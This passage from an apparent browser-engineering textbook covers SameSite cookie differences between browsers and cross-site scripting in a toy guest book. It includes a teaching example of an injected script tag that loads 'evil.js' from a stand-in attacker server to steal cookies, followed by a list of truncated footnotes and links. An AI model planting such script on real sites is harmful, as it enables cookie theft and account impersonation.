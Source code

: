 To this end, while there is a full specification for `SameSite`, it is still the
case that real browsers support different subsets of the feature or different
defaults. For example, Chrome defaults to `Lax`, but Firefox and Safari do not.
Likewise, Chrome uses the scheme (`https` or `http`) as part of the definition
of a "site",^[This is called "schemeful same-site".] but other browsers may not.
The main reason for this situation is the need to maintain backward
compatibility with existing websites.
:::

[patches]: https://jakearchibald.com/2021/cors/

Cross-site scripting
====================

Now other websites can't misuse our browser's cookies to read or write
private data. This seems secure! But what about *our own* website?
With cookies accessible from JavaScript, any scripts run on our browser
could, in principle, read the cookie value. This might seem
benign---doesn't our browser only run `comment.js`? But in fact...

A web service needs to defend itself from being *misused*. Consider
the code in our guest book that outputs guest book entries:

``` {.python file=server indent=8 replace=entry/html.escape(entry),who/html.escape(who)}
out += "<p>" + entry + "\n"
out += "<i>by " + who + "</i></p>"
```

Note that `entry` can be anything, including anything the user might
stick into our comment form. That includes HTML tags, like a custom
`<script>` tag! So, a malicious user could post this comment:

``` {.html .example}
Hi! <script src="http://my-server/evil.js"></script>
```

The server would then output this HTML:

``` {.html .example}
<p>Hi! <script src="http://my-server/evil.js"></script>
<i>by crashoverride</i></p>
```

Every user's browser would then download and run the `evil.js` script,
which can send[^document-cookie][^cross-domain][^how-send] the cookies
to the attacker. The attacker could then impersonate other users,
posting as them or misusing any other capabilities those users had.

[^document-cookie]: A site's cookies and cookie parameters are
    available to scripts running on that site through the
    [`document.cookie`][mdn-doc-cookie] API.
    
[mdn-doc-cookie]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie

[^cross-domain]: See the exercise on `Access-Control-Allow-Origin` for
    more details on how web servers can *opt in* to allowing
    cross-origin requests. To steal cookies, it's the attacker's
    server that would to opt in to receiving stolen cookies. Or, in a
    real browser, `evil.js` could add images or scripts to the page to
    trigger additional requests.

[^how-send]: In our limited browser the attack has to be a little
     clunkier, but the evil script still can, for example, replace the
     whole page with a link that goes to their site and includes the
     token value in the URL. You've seen "please click to continue"
     screens and have clicked through unthinkingly; your users will
     too.


[^fingerprinting]: I don't mean anonymous against malicious attackers,
[^secure-random]: This `random.random` call returns a decimal number
[^cookies-limited]: Browsers and servers both limit header lengths, so
[netscape-spec]: https://curl.se/rfc/cookie_spec.html
[wiki-magic-cookie]: https://en.wikipedia.org/wiki/Magic_cookie
[x-cookie]: https://en.wikipedia.org/wiki/X_Window_authorization#Cookie-based_access
[^password-input]: I've given the `password` input area the type
[^bad-form]: Do note that this is not particularly accessible HTML,
[^timing-attack]: Actually, using `==` to compare passwords like this
[timing-attack]: https://en.wikipedia.org/wiki/Timing_attack
[constant-time]: https://www.chosenplaintext.ca/articles/beginners-guide-constant-time-cryptography.html
[^hackers-movie]: The pre-loaded comments reference 1995's *Hackers*.
[^insecurities]: The insecurities include not hashing passwords, not
[bcrypt]: https://auth0.com/blog/hashing-in-action-understanding-bcrypt/
[client-certs]: https://aboutssl.org/ssl-tls-client-authentication-how-does-it-works/
[http-auth]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication
[^silly-name]: Because once you have one silly name it's important to
[^multiple-resources]: Moreover, since `request` can be called multiple
[^multiple-set-cookies]: A server can actually send multiple
[rfc-2965]: https://datatracker.ietf.org/doc/html/rfc2965
[rfc-6265]: https://datatracker.ietf.org/doc/html/rfc6265
[^tls]: Well... Our connection isn't encrypted, so an attacker could
[^dns]: Well... Another server could hijack our DNS and redirect our
[^bgp]: Well... A state-level attacker could announce fradulent BGP
[^oof]: Security is very hard.
[^weird-name]: It's a weird name! Why is `XML` capitalized but not
[xhr-history]: https://en.wikipedia.org/wiki/XMLHttpRequest#History
[^obsolete]: Synchronous `XMLHttpRequests` are slowly moving through
[xhr-open]: https://xhr.spec.whatwg.org/#the-open()-method
[^more-options]: `XMLHttpRequest` has more options not implemented
[^even-more-options]: As above, this implementation skips important
[^note-method]: Note that the `method` argument is ignored, because
[mdn-fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[xhr-grh]: https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/getResponseHeader
[xhr-srh]: https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader
[bad-req-headers]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_header_name
[bad-resp-headers]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_response_header_name
[^why-visit-attackers]: Why is the user on the attacker's site?
[same-origin-mdn]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[^and-some-others]: Some kinds of requests are not subject to the
[^not-cookies]: You may have noticed that this is not the same
[mdn-drawimage]: https://developer.mozilla.org/en-US/docs/Web/API/CanvasRenderingContext2D/drawImage
[mdn-getimagedata]: https://developer.mozilla.org/en-US/docs/Web/API/CanvasRenderingContext2D/getImageData
[tainted]: https://developer.mozilla.org/en-US/docs/Web/HTML/CORS_enabled_image
[^further-disguise]: Even worse, the form submission could be
[^google-search]: For example, many search forms on websites submit to
[^per-user]: It's important that nonces are associated with the
[^like-cookie]: Note the similarity to cookies, except that instead of
[^hidden]: Usually `<input type=hidden>` is invisible, though our
[^multi-nonce]: In real websites it's usually best to allow one user
[clickjacking]: https://owasp.org/www-community/attacks/Clickjacking
[x-frame-options]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
[csp-frame-ancestors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors
[^in-progress]: At the time of this writing, the `SameSite` cookie
[mdn-samesite]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite
[^iow-links]: Cross-site `GET` requests are also known as "clicking a
[^not-referrer]: The "referrer" is the web page that "referred" our
[samesite-def]: https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-cookie-same-site-00#section-2.1
[^schemeful]: At I write this, some browsers also check that the new
[origin-bound-cookies]: https://github.com/sbingler/Origin-Bound-Cookies
[^ch1-ex]: You may have implemented this in a [Chapter 1
[corb]: https://chromium.googlesource.com/chromium/src/+/refs/heads/main/services/network/cross_origin_read_blocking_explainer.md
[json-hijack]: https://owasp.org/www-pdf-archive/OWASPLondon20161124_JSON_Hijacking_Gareth_Heyes.pdf
[^more-complex]: In real browsers `Content-Security-Policy` can also
[^raise-error]: Note that when loading styles and scripts, our browser
[^evil-js]: Needless to say, `example.com` does not actually host an
[report-to]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to
[report-only]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only
[std-httponly]: https://datatracker.ietf.org/doc/html/rfc6265#section-5.3
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[^referer]: Yep, [spelled that way][wiki-typo].
[wiki-typo]: https://en.wikipedia.org/wiki/HTTP_referer#Etymology